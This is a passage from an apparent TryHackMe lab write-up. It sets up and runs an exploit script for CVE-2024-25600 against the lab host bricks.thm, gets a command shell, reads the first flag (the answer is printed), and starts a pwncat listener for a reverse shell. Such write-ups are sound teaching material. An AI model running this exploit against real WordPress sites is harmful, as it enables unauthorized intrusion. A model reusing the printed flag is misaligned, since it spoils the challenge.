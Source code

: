 In order to make a proper install it is highly recommended to create Python virtual environement to install the dependencies of the Python script.

To do that we can use the following command

```bash
python3 -m venv CVE-2024-25600-env # <- You can name it whatever you want
source CVE-2024-25600-env/bin/activate # We then activate the virtual environement
pip install -r requirements.txt # Only then we install the dependencies

# You can deactivate the venv using the following command
deactivate
```

Nice now let’s try to run the script !

```bash
chmod +x exploit.py # Give execution perm
python exploit.py -u https://bricks.thm/    
                                        
[*] Nonce found: 5f3fce1e00 # You can also get this value on the website source code
[+] https://bricks.thm/ is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

Well that was fast ! We finally got a shell session awesome !

We can now retrieve the first flag under /data/www/default

```bash
# pwd
/data/www/default

# cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

## Q1 answer

The answer is **THM{fl46_650c844110baced87e1606453b93f22a}**

Now that we’ve got a shell on the target we might want to stabilize it as we can’t do much with it.

In order to do that I like using `pwncat` (https://github.com/calebstewart/pwncat) which is a really useful tool. Go check it out !

We can get a stable reverse shell using the following commands.

First start the pwncat listener

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
bound to 0.0.0.0:4444
```
